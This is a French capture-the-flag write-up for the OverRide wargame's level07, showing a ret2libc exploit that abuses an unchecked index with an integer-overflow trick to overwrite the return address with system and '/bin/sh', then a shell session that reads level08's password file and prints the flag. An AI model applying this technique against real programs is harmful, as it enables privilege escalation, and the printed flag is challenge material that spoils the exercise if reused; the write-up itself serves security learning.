 Voila nous avons donc toutes les adresses nécessaire pour le RET2LIBC.

il nous faut convertir les adresse en uint:

```
system  => 0xf7e6aed0 => 4159090384
/bin/sh => 0xf7f897ec => 4160264172
```

Nous savons maintenant qu il faut remplacer l'EIP ainsi que l'adresse suivant pour y insérer l'appel de "system" et la string "/bin/sh".

Sachant que 114 est un %3 nous allons pas pouvoir l ecrire en lui donnant directement l index voulu, pour cela nous pouvons lui donner un uint max / 4 + 114 + 1, cela va produire une rotation complete pour arriver un octect avant le tableau puis faire un avancement de l offset + 1 pour tomber sur l'EIP. Le total ne sera donc pas un %3.

```
number: 4159090384
index: 0xffffffff / 4 + 114 + 1 = 1073741938
System est maintenant dans l'eip

number: 4160264172
index: 116
/bin/sh est maintenant a eip+2

```

![](Pasted%20image%2020240809055717.png)

```
(remote) level07@OverRide:/home/users/level07$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
$
```

```
level08 : 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```